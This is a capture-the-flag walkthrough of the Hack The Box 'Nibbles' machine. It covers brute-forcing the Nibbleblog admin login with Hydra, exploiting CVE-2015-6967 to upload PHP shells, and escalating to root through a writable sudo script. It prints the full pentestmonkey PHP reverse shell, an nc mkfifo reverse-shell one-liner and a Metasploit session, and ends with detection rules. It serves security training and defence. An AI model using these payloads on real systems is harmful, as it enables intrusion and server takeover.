


> **Syntropy Intel:** 🧠 [Mental Model: False Failure](../../../../00-Mental-Models/The-False-Failure-Paradox.md) | 🛡️ [Detection Rules: FIM](../../../../02-Detection-Engineering/Universal-FIM-Rules.md)

# Hack The Box (HTB) Nibbles Machine Writeup | [54nK4lP3x3]

**Hack the Box machine walkthrough of HTB Nibbles by: [`54nK4lP3x3`](https://app.hackthebox.com/profile/1630957)**

## Executive Summary

Nibbles serves as a masterclass in the "Soft Center" architecture. While the perimeter presents a sterile, minimal front, a deep-dive into the web directories reveals a deprecated CMS (`Nibbleblog v4.0.3`) riddled with legacy vulnerabilities. This operation highlights two critical failures: the reliance on "security by obscurity" (hiding the blog directory) and the failure to validate file integrity after a web application error.

**The Kill Chain:**

1. **Recon:** Source code analysis revealed a hidden directory `/nibbleblog`.
2. **Foothold:** Contextual password profiling (using the site name "Nibbles") allowed access to the administrative panel.
3. **Exploit:** Abuse of the "My Image" plugin (CVE-2015-6967) to upload a PHP shell, ignoring false-positive error messages returned by the application.
4. **PrivEsc:** Exploitation of a writable bash script (`monitor.sh`) executed with `sudo` privileges to pivot from user `nibbler` to `root`.

## Attack Chain Visualized



## Reconnaissance

We begin with the standard procedure: a port scan to define the attack surface. We need to know what doors are open.

```bash
# -sC: Default scripts | -sV: Version detection | -oA: Output all formats
sudo nmap -sC -sV -oA nibbles_scan $TARGET
```


While the OpenSSH version appears outdated, the primary attack surface is the Apache web server on port 80.

Visiting the web root presents a "Hello World" page. Visually, it is a dead end.


We never trust the rendered view. We inspect the source code (`Ctrl+U`). Developers often leave structural comments that the browser hides. Here, we find the breadcrumb that breaks the assessment wide open.


With the target directory identified, we pivot our enumeration tools to `http://10.129.114.123/nibbleblog/`.


Discovery of a new web endpoint triggers immediate directory enumeration. We need to map the application's internal structure to find hidden pages that increase the attack surface on target appliaction.

```bash
gobuster dir -u http://$target/nibbleblog/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```


We locate a `README` file which confirms the software version: **`Nibbleblog v4.0.3`**. This version is historically vulnerable to authenticated arbitrary file upload ([`CVE-2015-6967`](https://www.exploit-db.com/exploits/38489)).


Simultaneously, we scan the `/content` directory. We find `users.xml`, which leaks the administrative username as `admin` within the `/content/private/users.xml` file.


## The Foothold

We have a version number `(v4.0.3`) and a username (`admin`).
A search for `Nibbleblog 4.0.3` reveals **CVE-2015-6967**: An arbitrary file upload vulnerability.

**The Obstacle:** The exploit requires authentication. We are locked out.

Standard wordlists (`rockyou.txt`) are often too broad. We need to think like the user. The blog is called "Nibbles." The content is likely about "Nibbles."

**Mental Model: The Contextual Wordlist**
Users rarely choose random passwords; they choose passwords related to their life or work. We use **CeWL** to scrape the website and generate a wordlist based on the words actually appearing on the page.

```bash
cewl http://10.129.114.123/nibbleblog/ -d 3 -w possible_passwords.txt
```

We feed this contextual list into Hydra.

```bash
$ cewl http://$target/nibbleblog/ -d 3 -w possible_passwords.txt
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
┌──(kali㉿kali)-[~/Documents/CPTS/Nibbles]
└─$ cat possible_passwords.txt
Nibbles
nibbles
Yum
yum
Home
posts
world
Hello
Videos
Music
Uncategorised
Powered
Nibbleblog
Top
ATOM
Atom
FOOTER
Feed
are
There
VIEW
Pages
image
Latest
Categories
PLUGINS
MAIN
HEADER
http
nibbleblog
feed
php
```

We use this custom wordlist along with Hydra to find a valid match:

```bash
$ hydra -l admin -P possible_passwords.txt 10.129.114.123 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect" -V

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-01-16 09:42:13
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:1/p:32), ~2 tries per task
[DATA] attacking http-post-form://10.129.114.123:80/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "Nibbles" - 1 of 32 [child 0] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "nibbles" - 2 of 32 [child 1] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "Yum" - 3 of 32 [child 2] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "yum" - 4 of 32 [child 3] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "Home" - 5 of 32 [child 4] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "posts" - 6 of 32 [child 5] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "world" - 7 of 32 [child 6] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "Hello" - 8 of 32 [child 7] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "Videos" - 9 of 32 [child 8] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "Music" - 10 of 32 [child 9] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "Uncategorised" - 11 of 32 [child 10] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "Powered" - 12 of 32 [child 11] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "Nibbleblog" - 13 of 32 [child 12] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "Top" - 14 of 32 [child 13] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "ATOM" - 15 of 32 [child 14] (0/0)
[ATTEMPT] target 10.129.114.123 - login "admin" - pass "Atom" - 16 of 32 [child 15] (0/0)
[80][http-post-form] host: 10.129.114.123   login: admin   password: nibbles
1 of 1 target successfully completed, 1 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-01-16 09:42:16
```

**Success.** The credentials are `admin:nibbles`.
*Note: This is a failure of password hygiene. The password was literally the name of the blog.*

This gives us access to the `/admin` endpoint on Nibbleblog 


## Exploitation

We navigate to **Plugins > My Image**, the vector for CVE-2015-6967. This plugin allows image uploads but fails to validate PHP extensions.


Leveraging the unrestricted file upload feature, we craft a minimal PHP execution script (`RCE.php`) to test for code execution , the command that it executes is the `id` command.

```bash
┌──(kali㉿kali)-[~/Documents/CPTS/Nibbles]
└─$ echo "<?php system('id'); ?>" > RCE.php
```

The above payload if executed successfully will give us the output of the bash `id` command  as executed on the webserver. The application responds with a cascade of PHP warnings. Crucially, we ignore the visual noise and verify the final status message, which confirms the file was successfully written to the disk (as displayed on the webpage).

```bash
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```

With our payload successfully uploaded to the webserver our next challenge is to find the exact location of where this file is being uploaded on the webservers path which is vital for us to execute this payload.

From our enumeration of subdirectories on the `/nibbleblog` endpoint the `/admin` & the `/content` pages, each had a folder named `plugin` and since this is where we uploaded the `RCE.php` file it is a good place to look for our uploaded payload. The `/content/plugins/my_images` page shows a new file that has our current timestamp indicating that to be the uploaded payload file (albeit named as `image.php`)


There are 2 files with the current timestamp meaning that they were modified recently but we do not see a file named `RCE.php`  here , what we instead see is the file named `image.php` and when I open the link I get a command execution (result of the `id` command) shown on the webpage


This confirms command execution on the target webserver , this is great news as this gives us the possibility of a Remote code execution on target .

Alternately in order to execute this file (since we know the filename and its path) we can also use the curl command to execute our payload:

```bash
curl http://10.129.113.69/nibbleblog/content/private/plugins/my_image/image.php
```



Now that we have a confirmed command execution on the target we can abuse this to get a reverse shell on the machine by uploading the [php reverse shell script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):

Target: "My Image" Plugin (CVE-2015-6967).
Goal: Upload a reverse shell script that lets us control the server.

### Step 1: Preparation of payload

We will create a simple PHP file that calls back to your computer.

[ON ATTACKER MACHINE]

```bash
# Create the payload file, change the $ip and $port values to your specific IP and Port values.

  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '10.10.17.189';  // You have changed this
  $port = 9090;  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  // Daemonise ourself if possible to avoid zombies later
  //

  // pcntl_fork is hardly ever available, but will allow us to daemonise
  // our php process and avoid zombies.  Worth a try...
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }

  ?> 
  
```

We save this file as `PentestMonkey_reverseShell.php` and upload it to the image plugins same as we did with the earlier payload.

### Step 2: The Trap (Start Listening)

Before you fire the weapon, you must be ready to catch the shell. Open a NEW terminal window.

[ATTACKER MACHINE - TERMINAL 2]

```bash
nc -lvnp 9001
```

### Step 3: Upload & Trigger

1. Go to Plugins > My Image > Configure.
2. Upload `image.php`.
3. Ignore the Errors. The screen will show PHP warnings. *This is a lie.* The file uploaded successfully.
4. Trigger the file using `curl`.

[ATTACKER MACHINE - TERMINAL 1]

```bash
curl http://$TARGET/nibbleblog/content/private/plugins/my_image/image.php
```

We construct a [PHP reverse shell (from Pentest Monkey PHP reverse shell)](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and upload it. The application (again) responds with a wall of PHP warning messages, appearing to indicate a failure but followed by a File Uploaded Successfully prompt.


**The Mental Model: "Trust but Verify"**
Error messages are often untrustworthy. They may indicate a rendering error (e.g., trying to display a PHP file as an image) rather than an upload error. We check the upload directory `/content/private/plugins/my_image/` for this new reverse shell payload.

We trigger the payload using `curl` while a listener runs on our attack box.

```bash
curl http://$TARGET/nibbleblog/content/private/plugins/my_image/image.php
```


We have achieved a foothold as user `nibbler` and capture the `user.txt` file.

## Privilege Escalation: Manual Exploitation

We begin by listing the files that the current user can run as `sudo`to identify writable files or misconfigured execution paths. This reveals a file `monitor.sh` that we can run as an elevated user.


The `monitor.sh` script is a comprehensive system health monitoring tool designed for Linux environments. It gathers essential information such as the operating system type and version, kernel release, hostname, internal and external IP addresses, DNS servers, logged-in users, memory and disk usage, load averages, and system uptime. The script checks for internet connectivity by pinging a known server and displays its findings in a user-friendly format with colored output for better readability. Additionally, if executed with the `-i` option, it attempts to install itself as a command at `/usr/bin/monitor`, allowing users to easily invoke it from anywhere. The script concludes by cleaning up any temporary files it created during its execution, ensuring no unnecessary clutter is left behind.

Given that the script can be run as root without needing a password, we can exploit this by modifying it to execute a command that gives us root access.

We check the permissions of `monitor.sh` (or the folder it resides in). We discover it is writable by our user `nibbler`. This is a catastrophic configuration error. If we can write to the script, we dictate what `root` executes.

### Manual Exploitation Method 1 :

We append a command to spawn a bash shell `echo '/bin/bash'` to the end of the script.

```bash
nibbler@Nibbles:/home/nibbler$ echo "/bin/bash" >> /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ cd /personal/stuff/
nibbler@Nibbles:/home/nibbler/personal/stuff/$ tail -n 3 /monitor.sh

<er$ tail -n 3 /monitor.sh
fi
shift $(($OPTIND -1))
/bin/bash
nibbler@Nibbles:/home/nibbler$
nibbler@Nibbles:/home/nibbler$ sudo /monitor.sh

sudo /monitor.sh
'unknown': I need something more specific.
/monitor.sh: 26: /monitor.sh: [[: not found
/monitor.sh: 36: /monitor.sh: [[: not found
/monitor.sh: 43: /monitor.sh: [[: not found
root@Nibbles:/home/nibbler#
root@Nibbles:/home/nibbler# whoami
whoami
root
```

We execute the script with sudo privileges: `sudo ./monitor.sh`.


### Manual Exploitation Method 2:

An alternative, cleaner method uses a named pipe (`mkfifo`). This is often more reliable in restricted shell environments where standard redirection might fail.

```bash
# Append the nc mkfifo payload to the monitor.sh file
nibbler@Nibbles:$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.79 9009 >/tmp/f' | tee -a monitor.sh
#Verify the payloads addition on the file
nibbler@Nibbles:$ cat monitor.sh
#Start listener on attackbox
kali$: nc -nvlp 9090
#Once verified execute the file on target shell as sudo to escalate privileges to root
nibbler@Nibbles:$ sudo /monitor.sh
```

Here we have the `monitor.sh` file showing the appended `nc mkfifo` payload which we then run as sudo and wait for the connection on our listener


Our listener meanwhile gave us a shell as root:


### Automated Exploitation using Metasploit:

While manual exploitation is preferred for stealth, we validated the vulnerability using the `exploit/multi/http/nibbleblog_file_upload` module to confirm reproducibility. Detection Note: This module generates significant noise in Apache logs compared to the manual method

```bash
┌──(kali㉿kali)-[~]
└─$ msfconsole -q
msf6 > search nibbleblog

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability

Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.10        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3

View the full module info with the info, or info -d command.

msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.17.79
lhost => 10.10.17.79
msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.129.112.85
rhosts => 10.129.112.85
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi nibbleblog
targeturi => nibbleblog
msf6 exploit(multi/http/nibbleblog_file_upload) > run
[*] Started reverse TCP handler on 10.10.17.79:4444
[*] Sending stage (40004 bytes) to 10.129.112.85
[+] Deleted image.php
[*] Meterpreter session 1 opened (10.10.17.79:4444 -> 10.129.112.85:39318) at 2026-01-16 14:23:05 -0500

meterpreter > shell
Process 1607 created.
Channel 0 created.
whoami
nibbler
pwd
/var/www/html/nibbleblog/content/private/plugins/my_image
cat /home/nibbler/user.txt
79c03865431abf47b90ef24b9695e148
```


## Detection Engineering:

To transform this offensive knowledge into defensive power, we must translate the attack artifacts into high-fidelity detection logic.

1. **The Brute Force:** Look for high-velocity `POST` requests to `/nibbleblog/admin.php` from a single IP.
2. **The Webshell:** Alert on any `.php` file creation within `/content/private/plugins/`. Legitimate plugins rarely drop executable PHP files in nested image directories.
3. **The Privilege Escalation:** The execution of `monitor.sh` with `sudo` is legitimate, but **modification** of that file is not. Use File Integrity Monitoring (FIM) to alert whenever `monitor.sh` is modified.

**Prepared by Operator:** `54nK4lP3x3` | Syntropy Security — *For defenders who think like attackers.*
